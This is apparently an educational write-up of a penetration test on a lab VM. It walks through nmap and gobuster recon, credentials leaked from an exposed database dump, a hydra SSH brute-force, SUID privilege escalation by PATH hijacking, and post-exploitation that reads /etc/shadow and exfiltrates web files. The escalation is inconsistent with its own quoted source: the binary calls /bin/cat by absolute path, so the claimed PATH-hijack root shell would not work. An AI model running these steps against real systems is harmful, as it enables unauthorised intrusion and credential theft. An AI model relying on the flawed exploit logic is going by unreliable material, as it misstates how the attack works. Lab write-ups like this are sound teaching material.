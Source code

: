 # 🧪 Penetration Test Lab – Full Simulation

This document walks through a **complete penetration test simulation** conducted in a controlled lab environment. The goal is to demonstrate a realistic attack workflow while following ethical hacking methodology.

> ⚠️ Educational purpose only. Do not replicate without permission on real systems.

---

## 🧱 Target Setup

- **OS**: Ubuntu 20.04 (vulnerable VM)
- **IP Address**: 192.168.1.105
- **Exposed Services**:
  - HTTP (port 80)
  - SSH (port 22)
  - MySQL (port 3306)

---

## 🔍 1. Reconnaissance

```bash
nmap -sS -sV -T4 -Pn 192.168.1.105
```

Result:

``` arduino

22/tcp  open  ssh      OpenSSH 7.2p2
80/tcp  open  http     Apache httpd 2.4.18
3306/tcp open mysql    MySQL 5.7.29
```

Used gobuster to brute force hidden directories:

```bash

gobuster dir -u http://192.168.1.105 -w /usr/share/wordlists/dirb/common.txt
```

Found: /admin, /uploads, /backup

## 📡 2. Vulnerability Discovery

Visited http://192.168.1.105/backup/db.sql → Full DB dump exposed

→ Contained MySQL credentials:

```sql
User: admin
Pass: pass1234
```

Used hydra to brute-force SSH using leaked credentials:

```bash
hydra -l admin -P passwords.txt ssh://192.168.1.105
```

Got access with password: pass1234

## 💥 3. Exploitation

``` bash
ssh admin@192.168.1.105
```

After login:

```bash
whoami
admin
```

Found SUID binary:

```bash
find / -perm -4000 -type f 2>/dev/null
```

→ /usr/bin/viewlogs (custom log viewer, insecurely coded)

Checked source:

```c
system("/bin/cat /var/log/syslog");
```

Exploited with path hijacking:

```bash
echo "/bin/bash" > /tmp/cat
chmod +x /tmp/cat
export PATH=/tmp:$PATH
/usr/bin/viewlogs
Got root shell.
```

## 📥 4. Post-Exploitation

- Enumerated users: cat /etc/passwd

- Extracted hashes: cat /etc/shadow

- Enabled SSH root login

- Exfiltrated /var/www/html contents

## 🧾 5. Report Summary

| Phase             | Tool(s) Used       | Outcome                           |
| ----------------- | ------------------ | --------------------------------- |
| Recon             | `nmap`, `gobuster` | Found open ports and endpoints    |
| Credential Leak   | Browser, DB dump   | Found MySQL creds                 |
| Exploitation      | `ssh`, `hydra`     | SSH access & privilege escalation |
| Post-Exploitation | Linux CLI          | Full system compromise            |


## 🎓 Lessons Learned

- Exposed backup files can lead to full compromise.

- SUID binaries should be reviewed carefully.

- Always validate access permissions and sanitize input in scripts.

## 📌 Best Practices

- Restrict directory listing and backup exposure

- Rotate credentials frequently

 -Use least privilege principles for user permissions

- Audit custom binaries before deployment

## 🛡️ Disclaimer

This lab is designed strictly for ethical hacking education. All steps were executed within a safe and private VM environment.
